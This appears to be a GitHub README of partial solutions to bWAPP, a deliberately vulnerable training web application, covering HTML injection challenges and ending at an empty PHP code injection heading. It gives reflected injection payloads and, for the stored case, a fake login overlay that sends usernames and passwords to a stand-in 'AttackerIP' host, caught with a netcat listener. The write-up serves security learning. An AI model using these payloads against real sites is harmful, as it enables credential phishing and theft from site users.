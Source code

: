 # solutions-bwapp
In progress rough solutions.  This is not a comprehensive solution list.  Updating whenever I have the time.

Ref sheet
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
http://www.sqlinjectionwiki.com/Categories/2/mysql-sql-injection-cheat-sheet/

# A1 - Injection

### HTML Injection - Reflected (GET)
htmli_get.php

```
/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```
 
### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```

### HTML Injection - Reflected (URL)

XXX:  Todo, IE only?
```
/bWAPP/htmli_current_url.php
```

### HTML Injection - Stored (Blog)

Following solution taken from:
```
http://penthusiasts.blogspot.com/2013/12/bwapp-html-injection-all.html
```
```
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index: 1000; background-color:white; padding: 1em;">Please login with valid credentials:<br><form name="login" action="http://AttackerIP/login.htm"><table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td><td><input type="text" name="password"/></td></tr><tr><td colspan=2 align=center><input type="submit" value="Login"/></td></tr></table></form></div>
```

Attacker's machine:
```
nc -l 80
```

### PHP Code Injection
